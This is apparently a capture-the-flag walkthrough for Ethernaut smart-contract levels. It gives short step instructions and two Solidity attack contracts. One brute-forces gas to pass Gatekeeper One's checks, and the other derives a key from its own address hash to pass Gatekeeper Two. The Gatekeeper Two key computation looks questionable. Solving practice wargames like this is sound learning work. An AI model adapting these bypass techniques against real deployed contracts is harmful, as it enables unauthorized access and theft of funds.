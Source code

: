 ```
```
Deploy with params:<br>
- address: `contract.address` get on console window

Click unlock button with param is copied_address

===> submit level


### Gatekeeper One
`GatekeeperOneAttack.sol`
```
pragma solidity ^0.6.0;

contract HackGatekeeperOne {
    constructor() public {}
    event Hacked(uint256 gasBrute);
    function hack(address _gatekeeperAddr, uint256 _lowerGasBrute, uint256 _upperGasBrute) external {
        bytes8 key = bytes8(uint64(msg.sender) & 0xFFFFFFFF0000FFFF);
        bool success;
        uint256 gasBrute;
        for(gasBrute = _lowerGasBrute; gasBrute <= _upperGasBrute; gasBrute++){
            (success, ) = _gatekeeperAddr.call.gas(gasBrute + (8191 * 3))(
                abi.encodeWithSignature("enter(bytes8)", key)
            );
            if(success){
                break;
            }
        }        
        require(success, "HACK FAILED");
        emit Hacked(gasBrute);
    }
}
```
Deploy this contract.
After click hack button with param `<contract_address>, 1, 1000`

==> submit level

### Gatekeeper Two
`GatekeeperTwoAttack.sol`
```
pragma solidity ^0.6.0;

contract GatekeeperTwoAttack {
    constructor(address a) public {
        bytes8 _key = bytes8(uint64(bytes8(keccak256(abi.encodePacked(address(this))))) ^ uint64(0) - 1);
        a.call(abi.encodeWithSignature('enter(bytes8)', _key));
    }
}
```
